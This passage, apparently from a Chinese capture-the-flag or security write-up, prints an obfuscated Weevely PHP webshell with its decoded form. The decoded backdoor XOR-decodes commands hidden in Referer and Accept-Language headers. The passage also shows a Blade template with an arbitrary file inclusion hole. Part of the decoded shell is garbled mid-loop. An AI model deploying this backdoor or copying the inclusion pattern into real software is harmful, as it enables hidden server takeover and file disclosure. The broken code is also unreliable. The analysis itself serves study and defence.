 ```
$Q=str_replace('d','','crdddeatde_fdunctdion');
$b='3raK3y_vK3alues(K3$q)K3;preg_mK3aK3tch_all("K3/(K3[\\K3w])[\\w-]+(?:;q=0.([\\d]))K3?,K3?/",$ra,$m)';
$l=str_replace('K3','',$t.$H.$o.$v.$b.$O.$i.$D.$f.$B.$M.$c.$m);
$q=$Q('',$l);$q();
```

在这段大马中，`$Q`和`$l`均为字符串。Weevely借助PHP可以将函数名字符串用作类似函数指针的特性，来构造木马。

```
$Q = create_function

$kh = "a8bb";
$kf = "c44a";
function x($t, $k) {
	$c = strlen($k);
	$l = strlen($t);
	$o = "";
	for ($i = 0;$i &lt; $l;) {
		for ($j = 0;($j &lt; $c && $i &lt; $l);$j++, $i++) {
			$o.= $t{$i} ^ $k{$j};
		}
	}
	return $o;
}
$r = $_SERVER;
$rr = @$r["HTTP_REFERER"];
$ra = @$r["HTTP_ACCEPT_LANGUAGE"];
if ($rr && $ra) {
	$u = parse_url($rr);
	parse_str($u["query"], $q);
	$q = array_values($q);
	preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/", $ra, $m);
	if ($q && $m) {
		@session_start();
		$s = & $_SESSION;
		$ss = "substr";
		$sl = "strtolower";
		$i = $m[1][0] . $m[1][1];
		$h = $sl($ss(md5($i . $kh), 0, 3));
		$f = $sl($ss(md5($i . $kf), 0, 3));
		$p = "";
		for ($z = 1;$z$d");@session_destroy();}}}}
```

### 任意文件包含 

任意文件包含多为服务端程序在开发时没对可包含目录和文件做限制，导致可以读取任何文件。一般的表现形式为`http://localhost/page=index`或类似方式。本题中，我们在博客文章中引入了正文模板，这里的模板就具有文件包含漏洞。

```
# 1. app/views/posts/show.blade.php
<div class="article-body">
    {{ require __DIR__."/../../template/".$post->template }}
    {{ $post->body }}
</div>
```
